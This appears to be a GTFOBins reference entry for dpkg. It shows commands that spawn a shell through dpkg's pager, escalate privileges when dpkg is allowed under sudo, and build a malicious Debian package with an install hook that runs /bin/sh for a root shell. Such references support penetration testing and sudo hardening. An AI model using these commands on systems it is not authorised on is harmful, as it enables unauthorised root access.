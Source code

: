 # GTFOBin: dpkg

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
dpkg -l
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo dpkg -l
!/bin/sh
```

It runs an interactive shell using a specially crafted Debian package. Generate it with fpm and upload it to the target.

```
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

```

```
sudo dpkg -i x_1.0_all.deb
```